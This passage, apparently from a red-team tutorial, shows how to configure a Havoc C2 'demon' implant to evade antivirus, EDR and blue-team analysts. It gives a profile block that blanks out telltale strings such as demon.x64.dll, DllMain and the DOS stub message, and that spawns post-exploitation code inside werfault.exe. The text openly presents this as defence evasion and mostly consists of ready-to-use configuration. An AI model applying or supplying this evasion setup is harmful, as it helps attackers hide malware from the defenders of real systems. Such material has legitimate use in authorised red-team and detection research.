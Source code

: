 For the next example I will be using dll payload, because for some reason the generated exe does not contains demon.x64.exe when you run strings on it. 

### Replace strings

As shown from the screenshot below when you run strings on demon.x64.dll it will show the following at the end.

* demon.x64.dll
* Dllmain
* Start

![alt text](img/image5.png)

This payload can be easily detected by AV/EDR and blue-team analysts when they inspect strings or perform static analysis. To add a bit of evasion you can remove some strings it generated when you run a command or when you generated a payload. To fully evade static signature you must also modify the source code.

To remove the strings you can use the following on the profile. The **ReplaceStrings-x64 could be use to replace strings** into something or just make it blank. The blog from WKL https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/ shows a handful of **strrep** that we could use. We can copy a few of them in our profile and convert it into ReplaceStrings-x64.

Below is just an example of replacing strings and if you want to add more feel free to do, I suggest that you add everything that could give some detection.


```bash
#injection block for post exploitation.
Injection {
     Spawn64 = "C:\\Windows\\System32\\werfault.exe"
     Spawn32 = "C:\\Windows\\SysWOW64\\werfault.exe"
    }
#payload generated block currently it only supports ReplaceStrings-x64 to remove some sigs such as demon.x64.exe
    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "demon.x64.exe": "",
            "DllMain":"",
            "Start":"",
            "demon": "",
            ".x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }

        ReplaceStrings-x86 = {
            "demon.x86.dll": "",
            "demon.x86.exe": "",
            "demon": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
```